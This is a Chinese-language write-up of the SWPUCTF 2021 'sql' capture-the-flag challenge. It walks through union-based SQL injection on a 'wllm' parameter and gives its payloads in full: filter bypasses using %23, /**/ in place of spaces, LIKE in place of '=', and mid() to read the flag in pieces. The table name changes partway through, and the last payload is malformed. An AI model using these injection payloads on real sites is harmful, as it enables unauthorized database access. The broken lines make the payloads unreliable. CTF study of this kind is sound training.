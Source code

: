 # 【SWPUCTF 2021 新生赛】sql


# [SWPUCTF 2021 新生赛]sql

## 思路
* 使用常规字符型的联合注入起手
* 通过弹窗，在每个语句中找到对应的过滤内容，替换过滤内容
* 发现显示只有开头，使用函数获取每一段flag

## EXP

1. 一开始在做闭合中发现`--&#43;`被过滤，因为`&#43;`表示空格

   使用`#`后发现无回显，考虑用url编码`%23`.

2. 发现有回显位，因此用联合注入

3. 使用`order by`时发现了空格过滤 =&gt; 使用`/**/`替换绕过

4. 开始爆破表格名，使用`where table_name=&#34;&#34;`时发现了 `=` 过滤 =&gt; 使用like替换，即：

   ```
   where/**/table_name/**/like LFLF_flag
   ```

3. 同时发现`and`被过滤，直接限制表名，不要限制数据库即可
4. 得到字段后直接查字段，发现查询到的字数出现限制

```
?wllm=-1&#39;/**/union/**/select/**/1,2,flag/**/from/**/LFLF_flag
```

5.   尝试使用right()函数，发现被过滤。

6. 尝试使用mid()函数

   ```
   ?wllm=-1&#39;union/**/select/**/1,mid(flag,1,20),3/**/from/**/LTLT_flag%23
   
   ?wllm=-1&#39;union/**/select/**/1,mid(flag,21,20),3/**/from/**/LTLT_flag%23
   
   ?wllm=-1&#39;union/**/select/**/1,flag,41,20),3/**/from/**/LTLT_flag%23
   ```

   

## 总结

* 

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-swpuctf-2021-%E6%96%B0%E7%94%9F%E8%B5%9Bsql/  

